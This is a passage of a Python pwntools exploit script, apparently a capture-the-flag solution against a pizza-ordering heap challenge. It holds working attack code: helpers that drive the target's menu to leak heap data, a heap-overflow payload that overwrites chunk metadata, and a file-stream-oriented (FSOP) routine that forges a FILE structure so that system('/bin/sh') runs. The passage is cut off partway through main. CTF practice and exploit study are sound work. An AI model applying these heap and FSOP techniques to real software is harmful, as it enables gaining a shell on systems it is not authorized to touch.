 ```python


def free_pizza(idx: int):
    r.sendlineafter(b" > ", b"2")
    r.sendlineafter(b"number? ", str(idx).encode())


def modify_pizza(idx: int, name: bytes, desc: bytes, hax=False):
    r.sendlineafter(b" > ", b"4")
    r.sendlineafter(b"number? ", str(idx).encode())
    r.sendafter(b"Who's the order for now? ", name)
    if not hax:
        r.sendafter(b"on the pizza? ", desc)
        r.recvuntil(b"It's now going into the oven!\n")


def get_leak(idx: int = 0) -> bytes:
    r.sendlineafter(b" > ", b"5")
    for _ in range(idx + 1):
        r.recvuntil(b"Order name: ")
    leak = r.recvuntil(b"Description: ", drop=True).strip()
    r.recvline()
    return leak


def fsrop():
    fs = FileStructure()
    fs.flags = 0x3B01010101010101
    fs._IO_read_ptr = u64(b"/bin/sh\x00")
    fs._wide_data = libc.sym["_IO_2_1_stdout_"] + 0x10
    fs._lock = libc.sym["_IO_stdfile_1_lock"]
    fs.vtable = libc.sym["_IO_wstr_jumps"] + 160

    return (
        bytes(fs)
        + p64(libc.sym["system"])
        + p64(0)
        + p64(libc.sym["_IO_2_1_stdout_"] + 0x78)
    )


def main():
    global r
    r = conn()

    modify_payload = (
        b"A" * 40  # name
        + p64(0x21)  # desc size
        + b"B" * 24  # desc
        + p64(0x31)  # pizza chk size
        + p32(0)  # price
        + p16(1)  # id
        + p8(0)  # is_ready
        + p8(0x2)  # type
        + p64(0xFF)  # name_len
    )

    log.info("leaking heap base...")

    add_pizza(
        0, 0x20, b"A" * 0x1F, (len(modify_payload) + 1) << 8 | 0x02, 0x10, b"B" * 0xF
    )
    add_pizza(1, 0x10, b"C" * 0xF, 0xFF << 8 | 0x02, 0x10, b"D" * 0xF)
```